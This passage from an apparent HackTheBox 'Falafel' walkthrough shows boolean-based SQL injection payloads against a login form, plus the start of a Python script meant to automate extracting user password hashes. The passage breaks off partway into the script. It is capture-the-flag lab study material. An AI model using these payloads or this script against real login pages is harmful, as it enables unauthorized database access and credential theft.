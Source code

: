 And we get it

```
username=chris'AND+substring(username,1,1)='c'--+-&password=test
```

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-27-HackTheBox-Falafel/2021-09-27-HackTheBox-Falafel%2010:02:32.png)

```
username=chris'AND+substring(username,1,1)='a'--+-&password=test
```

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-27-HackTheBox-Falafel/2021-09-27-HackTheBox-Falafel%2010:03:03.png)

Now, let's automate it to extract the user hashes

# Auto SQLInjection Extract

First, we will use our python skeleton to do that

```py
#!/usr/bin/python3

import argparse
import requests
import sys

'''Setting up something important'''
proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
r = requests.session()

'''Here come the Functions'''

def main():
    # Parse Arguments
    parser = argparse.ArgumentParser()
    parser.add_argument('-t', '--target', help='Target ip address or hostname', required=True)
    args = parser.parse_args()
    
    '''Here we call the functions'''
    
if __name__ == '__main__':
    main()
```

Here it is

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-27-HackTheBox-Falafel/2021-09-27-HackTheBox-Falafel%2010:18:21.png)

```py
#!/usr/bin/python3
#Author: 0x4rt3mis
#Auto SQLI MySQL Version - Falafel HackTheBox

import argparse
import requests
import sys

'''Setting up something important'''
proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
r = requests.session()

'''Here come the Functions'''
def getVersion(rhost):
    sqli_target = 'http://' + rhost +"/login.php"
    headers = {"Content-Type": "application/x-www-form-urlencoded"}
```